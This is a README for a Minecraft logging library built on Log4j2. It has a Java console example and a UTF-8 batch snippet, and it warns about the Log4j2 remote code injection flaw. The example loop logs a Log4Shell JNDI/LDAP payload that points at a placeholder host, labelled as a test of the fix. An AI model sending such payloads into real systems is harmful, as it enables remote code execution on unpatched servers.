

# MCLOG
### The minecraft logging system

### WARNING! Log4j2 < 2.15 has remote code injection. Use the LAST RELEASE(1.1)!

### Example
```java
import java.util.concurrent.atomic.AtomicInteger;
import net.steelswing.mclog.ServerConsole;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 *
 * @author SteelSwing
 */
public class TestConsole {

    private static final Logger log = LogManager.getLogger();

    public static void main(String[] args) throws Exception {
        ServerConsole console = new ServerConsole().addListener((ServerConsole cns, String cmd) -> {
            if (cmd.equalsIgnoreCase("stop")) {
                cns.setRunning(false); // stop console handler
            }
        });

        
        AtomicInteger counter = new AtomicInteger(0);
        while (console.isRunning()) {
            if (counter.incrementAndGet() % 10 == 0) {
                log.error("&cHello &aWorld!");
                log.info("${jndi:ldap://someadress.com:1389/hackthisapp}"); // test log4j2 Remote code injection fix
            }

            Thread.sleep(20);
        }
    }
}
```

### Enable support for Russian characters (Windows)
```bat
rem test bat file.
chcp 65001
java -Dfile.encoding=UTF-8 -jar you_jar.jar
```

